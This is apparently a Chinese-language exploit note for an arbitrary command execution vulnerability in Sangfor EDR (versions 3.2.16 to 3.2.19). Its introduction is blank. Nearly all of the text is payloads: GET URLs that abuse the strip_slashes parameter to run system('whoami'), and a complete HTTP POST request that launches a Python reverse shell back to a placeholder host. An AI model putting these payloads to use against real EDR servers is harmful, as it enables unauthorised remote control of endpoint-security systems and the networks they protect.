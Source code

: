 深信服 终端检测相应平台（EDR） 任意命令执行漏洞（一）
=====================================================

一、漏洞简介
------------

二、漏洞影响
------------

深信服EDR 3.2.16

深信服EDR 3.2.17

深信服EDR 3.2.19

三、复现过程
------------

### payload：

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

    https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami

![1.png](./.resource/深信服终端检测相应平台(EDR)任意命令执行漏洞(一)/media/rId25.png)

### 反弹shell payload

    POST /tool/log/c.php HTTP/1.1
    Host: www.0-sec.org
    Connection: close
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
    DNT: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded;charset=utf-8
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=b1464478cad68327229d8f46e60d0a08; _ga=GA1.4.112365795.1597799903; _gid=GA1.4.1225783590.1597799903
    Content-Length: 256

    strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
